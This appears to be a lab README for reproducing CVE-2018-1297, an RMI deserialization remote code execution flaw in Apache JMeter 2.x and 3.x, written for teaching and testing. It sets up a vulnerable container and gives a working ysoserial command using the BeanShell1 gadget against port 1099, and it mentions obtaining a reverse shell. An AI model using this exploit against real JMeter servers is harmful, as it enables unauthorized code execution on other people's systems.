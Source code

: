 # Apache JMeter RMI Deserialization Remote Code Execution (CVE-2018-1297)

[中文版本(Chinese version)](README.zh-cn.md)

Apache JMeter is an Apache project that can be used as a load testing tool for analyzing and measuring the performance of a variety of services, with a focus on web applications.

When using Distributed Test only (RMI based), Apache JMeter 2.x and 3.x uses an unsecured RMI connection. This could allow an attacker to get Access to JMeterEngine and send unauthorized code.

## Vulnerable environment

Execute following command to start a JMeter v3.3 RMI server:

```
docker compose up -d
```

After the server is started, the RMI is listening on port 1099.

## Exploit

Use [ysoserial](https://github.com/frohoff/ysoserial) to exploit the deserialization by the gadget `BeanShell1`:

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'
```

Execute `docker compose exec jmeter bash` to enter the container, you will see the `/tmp/success` has been created:

![](1.png)

Get a reverse shell:

![](2.png)
